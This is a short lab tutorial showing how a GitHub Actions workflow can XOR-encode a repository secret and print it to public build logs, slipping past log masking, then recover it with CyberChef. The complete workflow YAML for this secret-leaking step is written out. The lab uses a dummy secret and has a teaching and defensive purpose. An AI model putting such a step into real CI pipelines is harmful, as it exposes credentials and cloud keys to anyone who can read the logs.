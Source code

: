 # Using public logs to exfiltrate secrets

This lab will simulate how an attacker could use GitHub Actions to exfiltrate secrets via public logs.

---

## Prerequisites

Before you begin, make sure you have the following:

- **A GitHub account** (with permission to create private repositories).
- **A browser** to:
  - Access [https://github.com](https://github.com)


## Step 1: Create a new GitHub repository

Go to GitHub and create a new public or private repository named something like `public-logs-exfiltration-demo`.

## Step 2: Add a GitHub Actions workflow

Create the file `.github/workflows/leak.yml` and add following contents to it:

```yaml
name: XOR Secret Leak

on: push

jobs:
  xor_secret:
    runs-on: ubuntu-latest
    env:
      SECRET: ${{ secrets.MY_SECRET }}
    steps:
      - name: XOR the secret and print
        run: |
          KEY="A"  # simple 1-char XOR key
          xor() {
            local input="$1"
            local key="$2"
            local output=""
            for (( i=0; i<${#input}; i++ )); do
              char="${input:$i:1}"
              xor_char=$(printf '%d' "'$char")
              xor_key=$(printf '%d' "'$key")
              result=$(( xor_char ^ xor_key ))
              output+=$(printf '\\x%02x' "$result")
            done
            echo -e "$output"
          }

          echo "XOR'd secret:"
          xor "$SECRET" "$KEY"
```
## Step 3: Add a secret

Go to your GitHub repo > Settings > Secrets and Variables > Actions, and add:

- Name: `MY_SECRET`
- Value: `super-secret-token-123`

## Step 4: Add a dummy file to the repository to trigger a commit and push

## Step 5: Retrieve the exfiltrated secret

 - Go to Actions -> All workflows -> leak.yml
 - In the leak.yml section click on xor_secret
 - Expand XOR the secret and print
 - Copy the value shown below `XOR'd secret:`
 - Go to [Cyber Chef](https://gchq.github.io/CyberChef/)
 - Search for XOR operation
 - Drag and drop it to the Recipie section
 - Paste the copied value in Input section
 - In the Recipie section select UTF-8 from the drop-down
 - Enter A in the Key field
 - The Output section will display the deciphered value of the exfiltrated secret

In a real-world scenario, this secret could be an AWS key, a GitHub token, or a cloud API key.
